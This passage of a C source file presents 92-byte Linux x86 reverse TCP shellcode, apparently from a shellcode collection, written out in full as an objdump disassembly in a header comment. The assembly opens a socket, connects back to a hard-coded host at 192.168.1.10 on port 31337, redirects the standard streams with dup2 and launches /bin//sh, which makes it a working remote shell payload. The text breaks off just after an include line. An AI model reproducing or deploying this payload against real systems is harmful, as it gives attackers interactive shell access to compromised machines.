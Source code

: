 ```c
/*
Title   : reversetcpbindshell  (92 bytes)
Date    : 16 May 2013
Author  : Russell Willis <codinguy@gmail.com>
Testd on: Linux/x86 (SMP Debian 3.2.41-2 i686)
 
$ objdump -D reversetcpbindshell -M intel

reversetcpbindshell:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:       31 c0                   xor    eax,eax
 8048062:       31 db                   xor    ebx,ebx
 8048064:       31 c9                   xor    ecx,ecx
 8048066:       31 d2                   xor    edx,edx
 8048068:       b0 66                   mov    al,0x66
 804806a:       b3 01                   mov    bl,0x1
 804806c:       51                      push   ecx
 804806d:       6a 06                   push   0x6
 804806f:       6a 01                   push   0x1
 8048071:       6a 02                   push   0x2
 8048073:       89 e1                   mov    ecx,esp
 8048075:       cd 80                   int    0x80
 8048077:       89 c6                   mov    esi,eax
 8048079:       b0 66                   mov    al,0x66
 804807b:       31 db                   xor    ebx,ebx
 804807d:       b3 02                   mov    bl,0x2
 804807f:       68 c0 a8 01 0a          push   0xa01a8c0
 8048084:       66 68 7a 69             pushw  0x697a
 8048088:       66 53                   push   bx
 804808a:       fe c3                   inc    bl
 804808c:       89 e1                   mov    ecx,esp
 804808e:       6a 10                   push   0x10
 8048090:       51                      push   ecx
 8048091:       56                      push   esi
 8048092:       89 e1                   mov    ecx,esp
 8048094:       cd 80                   int    0x80
 8048096:       31 c9                   xor    ecx,ecx
 8048098:       b1 03                   mov    cl,0x3
 0804809a <dupfd>:
 804809a:       fe c9                   dec    cl
 804809c:       b0 3f                   mov    al,0x3f
 804809e:       cd 80                   int    0x80
 80480a0:       75 f8                   jne    804809a
 80480a2:       31 c0                   xor    eax,eax
 80480a4:       52                      push   edx
 80480a5:       68 6e 2f 73 68          push   0x68732f6e
 80480aa:       68 2f 2f 62 69          push   0x69622f2f
 80480af:       89 e3                   mov    ebx,esp
 80480b1:       52                      push   edx
 80480b2:       53                      push   ebx
 80480b3:       89 e1                   mov    ecx,esp
 80480b5:       52                      push   edx
 80480b6:       89 e2                   mov    edx,esp
 80480b8:       b0 0b                   mov    al,0xb
 80480ba:       cd 80                   int    0x80
*/

#include <stdio.h>

/*
```
